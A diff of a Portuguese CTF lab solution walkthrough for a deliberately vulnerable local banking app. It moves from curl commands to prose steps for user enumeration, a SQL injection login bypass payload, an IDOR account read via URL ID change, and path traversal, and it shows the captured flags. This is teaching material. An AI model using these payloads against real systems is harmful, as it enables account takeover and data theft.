

Before and after one commit to msrlx0/ctf-labs, a Markdown page: lab-01-minibank/SOLUTION.md, the part around one of its changes. Shown at 95% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
docs: update lab-01-minibank solution walkthrough
Updated the solution document with technical corrections and clarifications.

````diff
--- a/lab-01-minibank/SOLUTION.md
+++ b/lab-01-minibank/SOLUTION.md
@@ -104,77 +99,76 @@ Usuario nao encontrado.
 
-```bash
-curl -i -X POST http://localhost:8088/login \
-  -d "username=joao" \
-  -d "password=errada"
-```
+Agora teste um usuário existente com senha errada:
+
+Usuário: joao
+Senha: errada
 
 Resultado esperado:
 
-```text
 Senha invalida.
-```
 
-Essa enumeracao e intencional no lab e nao possui flag propria.
+Isso permite enumerar usuários válidos, porque a aplicação retorna mensagens diferentes para usuário inexistente e senha incorreta.
 
-Payload funcional:
+Essa falha é intencional no lab e não possui flag própria.
 
-```text
-username: admin' OR '1'='1' --
-password: qualquercoisa
-```
+Usuário válido identificado:
 
-O espaco apos `--` faz parte do payload para comentario MySQL.
+joao
+4. SQL Injection no login
 
-Com `curl`:
+Ainda na página de login:
 
-```bash
-curl -i -c admin.cookies \
-  --data-urlencode "username=admin' OR '1'='1' -- " \
-  --data-urlencode "password=qualquercoisa" \
-  http://localhost:8088/login
-```
+http://127.0.0.1:8088/login
 
-Capturar flag:
+Use o seguinte payload no campo de usuário:
 
-```bash
-curl -s -b admin.cookies http://localhost:8088/dashboard | grep -i "FLAG"
-```
+admin' OR '1'='1' --
 
-Flag:
+No campo de senha, coloque qualquer valor:
 
-```text
+qualquercoisa
+
+O espaço após -- faz parte do payload. Ele é necessário para o comentário MySQL funcionar corretamente.
+
+Ao enviar o formulário, a aplicação deve redirecionar para:
+
+/dashboard
+
+No dashboard, deve aparecer:
+
+Usuario: admin | Perfil: admin
+
+E a flag:
+
 FLAG{sqli_capturada}
-```
 
-## 4. IDOR em contas
+A falha ocorre porque a aplicação concatena o valor do campo username diretamente em uma consulta SQL. O payload força uma condição verdadeira e ignora o restante da query.
 
-Login como Joao:
+5. IDOR em contas
 
-```bash
-curl -i -c joao.cookies \
-  -d "username=joao&password=joao123" \
-  http://localhost:8088/login
-```
+Faça login com o usuário comum:
 
-Conta de outro usuario:
+Usuário: joao
+Senha: joao123
 
-```bash
-curl -s -b joao.cookies http://localhost:8088/account/2
-```
+Após o login, acesse a conta do próprio usuário:
 
-Flag:
+http://127.0.0.1:8088/account/1
 
-```text
+Agora altere manualmente o ID na URL para acessar outra conta:
+
+http://127.0.0.1:8088/account/2
+
+A aplicação permite visualizar uma conta de outro usuário sem validar se ela pertence ao usuário autenticado.
+
+Na conta /account/2, deve aparecer:
+
 FLAG{idor_capturada}
-```
 
-## 5. Path Traversal / LFI controlado
+Essa é uma falha de autorização/falha lógica: o sistema valida que existe uma sessão, mas não valida o dono do recurso acessado.
 
-Arquivo normal:
+6. Path Traversal / LFI controlado
 
-```bash
-curl -i "http://localhost:8088/download?file=public-info.txt"
-```
+Pelo robots.txt, foi descoberta a rota:
 
-Ler o relatorio que contem a pista:
+/download
 
````
Also changed, not shown: other parts of lab-01-minibank/SOLUTION.md (+131 -85 lines).
